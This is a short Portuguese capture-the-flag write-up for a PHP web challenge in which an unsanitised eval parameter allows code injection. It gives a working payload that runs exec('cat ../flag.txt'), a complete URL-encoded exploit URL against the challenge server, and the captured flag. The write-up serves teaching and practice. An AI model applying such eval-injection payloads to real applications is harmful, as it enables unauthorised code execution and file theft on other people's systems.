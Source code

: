 # **CTF**

## _CMD Injection II_

## Informações

| **Category:** | **Points:** |
| ------------- | ----------- |
| Web           | 500         |

**Descrição:**

> (é na verdade code injection)

> Flag em ../flag.txt.

> http://34.95.239.56:9988/ 

## Solução

Na documentação do PHP vemos que o eval executa uma string como código PHP. Como não há nenhum tipo de sanitização podemos montar o payload da seguinte forma.

`$cmd = "bom dia";echo exec('cat ../flag.txt'); //";`

Onde definimos uma variável qualquer e logo em seguida adicionamos o código malicioso.

Com URL encode a URL ficaria:
```
http://34.95.239.56:9988/?phpcode=%24cmd%20%3D%20"bom%20dia"%3Becho%20exec%28%27cat%20..%2Fflag.txt%27%29%3B%20%2F%2F"%3B
```
![](https://i.imgur.com/SDzW2My.png)


### Flag

> CTF-BR{CUiD@do_CoM_0_3v@L}
